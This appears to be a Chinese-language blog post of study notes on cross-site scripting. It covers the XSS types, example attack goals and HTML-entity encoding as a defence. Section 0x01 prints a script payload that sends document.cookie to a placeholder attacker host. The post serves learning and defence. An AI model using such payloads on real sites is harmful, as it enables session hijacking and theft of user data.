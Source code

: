 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      复习日记-web基础-XSS               # 标题 
subtitle:   回顾以及整理一下自己的知识文档
date:       2020-03-27              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - web漏洞
---
```




## 0x00简述：
`Cross-site Scripting`:
>跨站脚本攻击：往web页面或者数据库中注入恶意Script代码，当用户浏览该页面时script脚本会被执行，从而达到恶意攻击用户的目的。
xss函数通常通过输出函数将javascript代码输出到html页面中，通过用户本地浏览器执行，所以xss漏洞的关键在于寻找参数未过滤的输出函数。
我们来介绍一下xss的类型：反射型xss、存储型xss和Dom型
- 1、反射型XSS：通过发出含xss代码的恶意链接并经由用户点击访问该链接后返回带有xss代码的恶意脚本触发该类型攻击，重要的是反射型xss是一次性的，不会损害服务器。
- 2、存储型XSS：攻击者把脚本放在目标服务器的数据库或者文件中，有很高的隐蔽性（多见于论坛，博客和留言板）。
- 3、DOM型XSS：是一种基于DOM文档对象模型的一种漏洞，DOM型不会和后台交互，是完完全全的web前端安全问题，当客户端的脚本程序可以通过DOM动态地检查和修改页面，而且攻击者可以控制一些DOM对象时，该漏洞即可触发

## 0x01 攻击举例：
- 1、劫持会话：（非httponly）
>大多数web应用程序都维护用户会话，以便标识用户，因此用户会话cookie是敏感信息，如果攻击者能通过劫持该会话冒充合法用户，则称为会话劫持。
简单的实例思路：
xss攻击语句：`<script>alert(document.cookie)</script>`直接弹出  
`<script>new image().src="http://ip/port?output="+document.cookie;</script>`发送会话cookie到攻击者控制的机器。
我们首先可以尝试直接弹出会话cookie确认，如需cookie文件的可以使用第二个payload发送cookie。
- 2、执行未经授权的活动
>在可控参数中，利用javascript的适当参数，将请求伪造到用户页面，诱惑其点击即可，我们在可控参数中可以将scirpt脚本的功能进行描述实现，一般来说伪造的是http请求。
- 3、网络钓鱼
>payload为表单，将表单注入到易受xss攻击的页面，然后发送用户数据到攻击者指定的服务器
- 4、窃取敏感信息
>在我们的服务器上面构建出具有窃取敏感信息（截屏发文件等）功能的js文件，以及敏感信息处理文件，一旦受害者访问我们的链接，敏感信息文件就会发送到相应的服务器上。

## 0x02结论
xss漏洞能带来重大风险，不容小觑，xss攻击可能窃取机密信息，冒充用户，执行未经授权的活动等。

保护措施：最好的便是将特殊符号转化为等效的html实体，这样就能防止script脚本的执行。




